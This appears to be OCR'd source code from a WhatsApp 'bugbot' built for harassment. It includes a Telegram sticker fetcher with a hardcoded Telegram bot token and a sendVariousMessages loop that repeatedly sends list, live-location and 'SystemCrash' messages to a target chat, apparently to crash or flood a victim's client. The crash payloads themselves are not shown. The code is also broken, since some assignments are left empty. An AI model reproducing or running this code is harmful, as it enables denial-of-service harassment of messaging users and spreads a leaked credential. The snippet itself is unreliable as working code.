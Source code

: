 async function loading () {
var hawemod = [

` ★彡 VINIZIAZ BUGBOT 彡★ `
]
let { key } = await zetsubo.sendMessage(from, {text: '@VINIZIAZ 𝐑𝚫𝐃𝚰𝚯𝚫𝐂𝚻𝚰𝛁𝚵 𝛁1.....'})//Pengalih isu

for (let i = 0; i < hawemod.length; i++) {
/*await delay(10)*/
await zetsubo.sendMessage(from, {text: hawemod[i], edit: key });//PESAN LEPAS
}
}
	 
async function Telesticker(url) {
    return new Promise(async (resolve, reject) => {
        if (!url.match(/(https:\/\/t.me\/addstickers\/)/gi)) return replygcxeon('Enther your url telegram sticker link')
        packName = url.replace("https://t.me/addstickers/", "")
        data = 
        const xeonyresult = []
        for (let i = 0; i < data.data.result.stickers.length; i++) {
            fileId = data.data.result.stickers[i].thumb.file_id
            data2 = 
            result = {
            status: 200,
            author: 'DGXeon',
            url: "https://api.telegram.org/file/bot891038791:AAHWB1dQd-vi0IbH2NjKYUk-hqQ8rQuzPD4/" + data2.data.result.file_path
            }
            xeonyresult.push(result)
        }
    resolve(xeonyresult)
    })
}

if (autodelete) {
zetsubo.sendMessage(m.chat,
{
delete: {
remoteJid: m.chat,
fromMe: true,
id: mek.key.id,
participant: mek.key.participant
}
})
}

async function sendVariousMessages(jid, count) {
  for (let i = 0; i < count; i++) {
    sendListMessage(jid);
    sendLiveLocationMessage(jid);
    sendSystemCrashMessage(jid);
    await sleep(500);
  }
}
